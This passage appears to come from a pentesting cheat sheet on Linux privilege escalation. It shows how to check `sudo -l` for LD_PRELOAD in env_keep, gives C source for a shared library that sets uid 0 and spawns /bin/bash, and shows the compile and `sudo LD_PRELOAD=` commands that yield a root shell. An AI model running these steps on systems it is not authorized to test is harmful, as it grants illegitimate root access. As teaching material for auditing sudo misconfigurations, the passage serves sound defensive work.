 * Verify the `LD_PRELOAD` option in `env_keep`

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ sudo -l
#Example results
Matching Defaults entries for user on ip-0-0-0-0:
    env_reset, env_keep+=LD_PRELOAD
```
{% endcode %}

* Write a simple script in C

{% code title="shell.c " overflow="wrap" lineNumbers="true" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
{% endcode %}

***

* Then compile into a shared library

{% code overflow="wrap" lineNumbers="true" %}
```bash
gcc shell.c -fPIC -shared -o shell.so -nostartfiles
```
{% endcode %}

{% hint style="info" %}
The extension `.so` represents a shared object
{% endhint %}

***

* Run a sudo command specifying the LD\_PRELOAD option with the script

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>sudo LD_PRELOAD=/home/user/ldpreload/shell.so $command
</strong><strong>#This will prompt a root shell
</strong></code></pre>

{% hint style="info" %}
The `$command` in this case, is any command with sudo permissions found using `sudo -l`
{% endhint %}

## <mark style="color:orange;">Abusing SUID/SGID permissions on reading binaries</mark>
